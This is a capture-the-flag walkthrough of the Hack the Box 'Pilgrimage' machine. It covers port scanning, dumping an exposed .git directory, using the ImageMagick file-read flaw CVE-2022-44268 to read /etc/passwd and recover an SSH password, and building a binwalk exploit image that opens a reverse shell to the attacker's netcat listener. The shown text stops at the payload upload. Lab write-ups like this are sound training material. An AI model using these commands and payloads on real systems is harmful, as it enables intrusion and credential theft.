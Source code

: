 # Hack the Box - Pilgrimage

### Port Scan
```JS
rustscan -a 10.10.11.219 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e689b57a-a922-4249-bd1f-e9fa6a10c6b1)

### Service Scan
```JS
nmap -sV -sC -A --min-rate 1000 10.10.11.219 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e7088bb-eda7-48c9-a997-9aff249734e7)

### HTTP
#### /index.php
```
http://pilgrimage.htb/index.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/926d244a-ec49-4f00-b52e-2470dcf12de7)

#### /login.php
```
http://pilgrimage.htb/login.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91c3655e-75c4-4434-a7c0-6cb6ffb4f416)

#### /register.php
```
http://pilgrimage.htb/register.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ae7ea9df-3379-4ae2-9bb1-21aab0840fb0)

#### /.git
```
http://pilgrimage,htb/.git/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf236a5d-c1d5-4e61-b79b-51f8ee5df32f)

### Dump /.git
```JS
git-dumper http://pilgrimage.htb/.git/ git
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8e034218-7ed2-4956-b0e3-821f84f9a665)

## Interaction
### Create Account
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8aace601-5083-47e0-9097-4d362135c8cb)

### Login
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/59281814-60c3-4606-aa98-5b736e27baee)

### Dashboard
```
http://pilgrimage.htb/dashboard.php
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2baf238c-a0fd-4fa2-8492-96816f3450e4)

### Shrink Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/28416acf-9319-4a20-aca5-0f2477231c16)

### Shrunk Image
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/45222057-30a0-40cb-9236-277ac66f3cdb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b7769831-449a-4948-ad62-33f08d6fbae5)

## Source Code
- The code uses "magick" to shrink the uploaded image.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e1e8ac77-b705-4a8a-a2f3-a1e887ede57d)

### Search Exploits
```
searchsploit magick
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dfc0dea8-95b2-412e-9509-488bcf24d57e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2a7440d9-e578-4433-a503-4c280c16ddd1)

### Exploit - Magick (Arbitrary File Read): CVE-2022-44268
The exploit allows to read arbitrary files on the server.
The suggested exploit is scripted in rust. I will be using an explot scripted in python.
```
https://github.com/kljunowsky/CVE-2022-44268
```
- Prepare Payload
```Python
python3 CVE-2022-44268.py --image image.png --file-to-read /etc/passwd --output payload.png
```
- Upload Payload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e9cba83e-70ca-4960-a5f2-1807331d9673)

- Payload URL
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/81f3e148-a8bb-4973-8a8b-ff322b454fd6)

- Read Files
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5b8058a661.png
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7fb8b1c-f9c6-4481-8c53-532b754d4bd8)

- Identified Users
  - root
  - emily

- The code in `/register.php` contains:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4c690079-74ee-4b7b-b598-9bdad2152018)

- Prepare a payload and read the file as done in the previous step. I had to modify the script as it was throwing an error. Now I get the output as hex.
```
python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/64f5bc11c30f2.png | tee data.hex
```
- Convert the received hex data as an image to string.
```
cat data.hex | xxd -r -p && echo ''
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bf82acca-237f-434e-8797-cebf1f19f690)

- Credentials found: emily:abigchonkyboi123

### FootHold
```
ssh emily@10.10.11.219
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c917b15a-555d-4fc4-8dd2-b21d8c8be882)

### List Processes
```
ps -aux
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f693978e-2530-4cfd-97de-bc04979feabf)

- Contents of `/usr/sbin/malwarescan.sh`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c61faa6e-3264-4917-a728-9faef849e886)

- The bash script uses a command `inotifywait` to monitor a directory for newly created files and then checks if the content of those files contains certain blacklisted phrases using the `binwalk` tool.
- binwalk version 2.3.2
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/33e56901-7cee-48a7-9490-5a39a42abc38)

### Search Exploits
```
searchsploit binwalk
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/13ca1261-42a7-4550-859e-a0ded4e1810f)
```
searchsploit -m python/remote/51249.py
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ef00376b-efa4-4888-b85a-642cb5318652)

- Prepare Payload
```
python3 51249.py poison.png 10.10.14.61 4444 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/378aa7bf-e083-41ed-a953-0fa7154bb520)
- Rename Exploit
```
mv binwalk_exploit.png pwnstuff.png
```
- Start a netcat listener
```
rlwrap nc -nlvvp 4444
```
- Start a local python server
```
python -m http.server 9999
```
- Upload the payload file (binwalk_exploit.png) to the target. Since the bash script `malwarescan.sh` uses the binwalk tool to scan the images uploaded to the `/var/www/pilgrimage.htb/shrunk` directory, the payload needs to be placed here.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9623d341-033c-4935-aa82-945a668c3498)

